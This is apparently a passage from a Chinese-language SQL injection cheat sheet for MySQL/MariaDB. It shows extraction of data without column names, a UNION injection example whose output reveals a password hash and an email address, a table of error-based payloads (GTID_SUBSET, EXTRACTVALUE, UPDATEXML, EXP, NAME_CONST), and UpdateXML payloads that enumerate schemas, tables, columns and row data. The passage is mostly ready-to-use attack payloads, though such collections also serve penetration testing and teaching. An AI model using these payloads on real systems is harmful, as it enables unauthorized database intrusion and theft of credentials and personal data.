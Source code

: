 ### 无列名提取数据

在不知道列名的情况下提取第4列的数据。

```sql
SELECT `4` FROM (SELECT 1,2,3,4,5,6 UNION SELECT * FROM USERS)DBNAME;
```

在查询`select author_id,title from posts where author_id=[INJECT_HERE]`中的注入示例：

```sql
MariaDB [dummydb]> SELECT AUTHOR_ID,TITLE FROM POSTS WHERE AUTHOR_ID=-1 UNION SELECT 1,(SELECT CONCAT(`3`,0X3A,`4`) FROM (SELECT 1,2,3,4,5,6 UNION SELECT * FROM USERS)A LIMIT 1,1);
+-----------+-----------------------------------------------------------------+
| author_id | title                                                           |
+-----------+-----------------------------------------------------------------+
|         1 | a45d4e080fc185dfa223aea3d0c371b6cc180a37:veronica80@example.org |
+-----------+-----------------------------------------------------------------+
```


## MySQL基于错误的注入

| 名称         | 负载         |
| ------------ | --------------- |
| GTID_SUBSET  | `AND GTID_SUBSET(CONCAT('~',(SELECT version()),'~'),1337) -- -` |
| JSON_KEYS    | `AND JSON_KEYS((SELECT CONVERT((SELECT CONCAT('~',(SELECT version()),'~')) USING utf8))) -- -` |
| EXTRACTVALUE | `AND EXTRACTVALUE(1337,CONCAT('.','~',(SELECT version()),'~')) -- -` |
| UPDATEXML    | `AND UPDATEXML(1337,CONCAT('.','~',(SELECT version()),'~'),31337) -- -` |
| EXP          | `AND EXP(~(SELECT * FROM (SELECT CONCAT('~',(SELECT version()),'~','x'))x)) -- -` |
| OR           | `OR 1 GROUP BY CONCAT('~',(SELECT version()),'~',FLOOR(RAND(0)*2)) HAVING MIN(0) -- -` |
| NAME_CONST   | `AND (SELECT * FROM (SELECT NAME_CONST(version(),1),NAME_CONST(version(),1)) as x)--` |


### MySQL基于错误的基本方法

适用于`MySQL >= 4.1`

```sql
(SELECT 1 AND ROW(1,1)>(SELECT COUNT(*),CONCAT(CONCAT(@@VERSION),0X3A,FLOOR(RAND()*2))X FROM (SELECT 1 UNION SELECT 2)A GROUP BY X LIMIT 1))
'+(SELECT 1 AND ROW(1,1)>(SELECT COUNT(*),CONCAT(CONCAT(@@VERSION),0X3A,FLOOR(RAND()*2))X FROM (SELECT 1 UNION SELECT 2)A GROUP BY X LIMIT 1))+' 
```


### MySQL基于错误的UpdateXML函数

```sql
AND updatexml(rand(),concat(CHAR(126),version(),CHAR(126)),null)-
AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),schema_name,CHAR(126)) FROM information_schema.schemata LIMIT data_offset,1)),null)--
AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),TABLE_NAME,CHAR(126)) FROM information_schema.TABLES WHERE table_schema=data_column LIMIT data_offset,1)),null)--
AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),column_name,CHAR(126)) FROM information_schema.columns WHERE TABLE_NAME=data_table LIMIT data_offset,1)),null)--
AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),data_info,CHAR(126)) FROM data_table.data_column LIMIT data_offset,1)),null)--
```
